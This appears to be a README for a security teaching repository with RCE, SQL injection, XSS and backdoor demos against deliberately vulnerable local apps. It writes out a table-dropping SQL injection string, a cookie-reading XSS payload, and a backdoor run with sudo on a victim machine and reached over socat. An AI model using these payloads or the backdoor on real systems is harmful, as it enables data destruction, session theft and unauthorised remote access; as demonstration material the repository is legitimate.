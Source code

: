 ## Quick Start Guide
1. `virtualenv -p python3 env`
2. `source env/bin/activate`
3. `pip install -r requirements.txt`

### RCE
1. `docker run --rm -it -p 8081:80 vulnerables/web-dvwa`
2. `python rce/run.sh`

### SQL-INJECTION
1. `python sql-injection/run_vulnerable.py` and enter `"""2'); drop table Users; --"""`

### XSS
1. `php -S localhost:8024`
2. `/index.php?text=faketitle%20onmouseover=(function(){alert(document.cookie)})();`
3. Hover special text.
4. For secure `/index_secure.php?text=faketitle%20onmouseover=(function(){alert(document.cookie)})();`

### BACKDOOR
1. `sudo backdoor/backdoor.sh` on victim machine
2. `socat STDIO TCP4:<victim ip>:1178` on attacker machine
